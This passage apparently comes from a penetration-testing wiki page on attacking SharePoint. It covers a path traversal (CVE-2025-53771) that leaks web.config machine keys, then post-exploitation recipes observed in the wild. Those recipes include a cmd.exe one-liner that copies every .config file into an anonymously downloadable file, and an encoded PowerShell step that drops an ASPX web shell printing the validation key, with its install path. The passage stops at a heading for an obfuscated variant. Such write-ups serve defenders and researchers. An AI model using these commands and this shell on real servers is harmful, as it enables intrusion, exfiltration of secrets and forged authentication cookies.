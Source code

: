 For an in-depth explanation on abusing ASP.NET ViewState read:

[[../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md]]

### 2.4 CVE-2025-53771 – Path Traversal / web.config Disclosure

Sending a crafted `Source` parameter to `ToolPane.aspx` (e.g. `../../../../web.config`) returns the targeted file, allowing leakage of:

* `<machineKey validationKey="…" decryptionKey="…">`  ➜ forge ViewState / ASPXAUTH cookies
* connection strings & secrets.

## 3. Post-exploitation recipes observed in the wild

### 3.1 Exfiltrate every *.config* file (variation-1)

```
cmd.exe /c for /R C:\inetpub\wwwroot %i in (*.config) do @type "%i" >> "C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\debug_dev.js"
```

The resulting `debug_dev.js` can be downloaded anonymously and contains **all** sensitive configuration.

### 3.2 Deploy a Base64-encoded ASPX web shell (variation-2)

```
powershell.exe -EncodedCommand <base64>
```

Decoded payload example (shortened):

```csharp
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Security.Cryptography" %>
<script runat="server">
    protected void Page_Load(object sender, EventArgs e){
        Response.Write(MachineKey.ValidationKey);
        // echo secrets or invoke cmd
    }
</script>
```
Written to:

```
C:\Program Files\Common Files\Microsoft Shared\Web Server Extensions\16\TEMPLATE\LAYOUTS\spinstall0.aspx
```

The shell exposes endpoints to **read / rotate machine keys** which allows forging ViewState and ASPXAUTH cookies across the farm.

### 3.3 Obfuscated variant (variation-3)
